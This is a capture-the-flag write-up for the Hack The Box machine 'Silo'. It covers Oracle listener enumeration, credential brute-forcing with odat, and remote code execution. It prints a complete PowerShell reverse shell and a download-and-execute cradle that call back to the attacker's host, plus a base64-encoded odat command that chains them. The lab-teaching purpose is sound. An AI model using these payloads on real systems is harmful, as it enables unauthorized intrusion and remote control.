 # Box 




![](img/Pasted%20image%2020210820120757.png)


https://app.hackthebox.eu/machines/Silo

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User & Root](#user--root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.82 10.10.10.82
```

![](img/Pasted%20image%2020210820171352.png)

So on this box we have a lot of RPC port, a port 80 with IIS 8.5, a port 8080 and 1521 running with oracle httpd and database and finally a smb port.

Nothing could be done on the on the smb server since guest is not allowed. 

I've never encountered this oracle technology before so it was a challenge to use the tools correctly. 

This is the docs I found useful  : https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener

https://github.com/quentinhardy/odat/wiki

odat will be my primary tool because I don't want to use metasploit since I try to avoid it as much as possible.

## Exploitation

Following the hacktricks website, I enumerated the SID :

![](img/Pasted%20image%2020210820123956.png)

Since XE was the first coming up I used it for the whole box et luckilly it was the good one.

After enumerating sids, you have to bruteforce login/password. For this I used the following wordlist :  `/usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt`. Copy it then you still need to modify because the software `odat` accept couple of creds with a `/` (for example root/root). And the metasploit wordlist contains space as a separator.

We can know use our wordlist : 

```
./odat passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file ../oracle_default_userpass.txt
```

![](img/Pasted%20image%2020210820150528.png)


Finding the user/password was a mess because an account could get "locked" and then you wouldn't find anything. So be careful with this. But well, we have a user :

| User | Password | 
| ------ | -------- |
| scott | tiger | 


Ok so now we have to get a RCE. From the hacktricks website, there are a lot of different ways to get a RCE but I only one worked for me and it was a mess to make it work.

You first need your typical reverse shell that you would use for a machine. 

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Encode it in base64 so we don't worry about strings. (https://byt3bl33d3r.github.io/converting-commands-to-powershell-compatible-encoded-strings-for-dummies.html)

Now you put this payload in a file called `rev.ps1`, usually this is enough, you download it in the remote machine, it works. Here for some reasons when I triggered the payload it would connect to my listener but shutdown directly. Now in `rev.ps1`, prepend your whole payload with `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`

You should have something like this in `rev.ps1` : 

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQAwAC4AMQAwAC4AMQA0AC4AMQAz.....
```

You need to download this powershell script in the remote machine so setup a python server. 

Once again, this is the payload to download a script and executes it :

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.13:4444/rev.ps1')
```

Convert it to base64, like before. 

Your final command will look like this : 

```
./odat dbmsscheduler   -s 10.10.10.82 -U scott -P tiger -d XE  --exec "C:\Windows\System32\cmd.exe /c C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMQAzADoANAA0ADQANAAvAHIAZQB2AC4AcABzADEAJwApAAoA" --sysdba
```

What happens is : 
cmd.exe -> powershell download our `rev.ps1` file -> launch a new posershell with our reverse shell. 

Also, for some reasons the --sysdba is needed because our user does not have enough privilege to run commands. 

After that you should get a shell :

![](img/Pasted%20image%2020210820174143.png)

![](img/Pasted%20image%2020210820174154.png)

![](img/Pasted%20image%2020210820174205.png)

## Post-Exploitation
### User & Root

Commands like `systeminfo` and `whoami` are not working but we can go to the administrator folder so I guess we are system anyways. 

![](img/Pasted%20image%2020210820174332.png)

![](img/Pasted%20image%2020210820174356.png)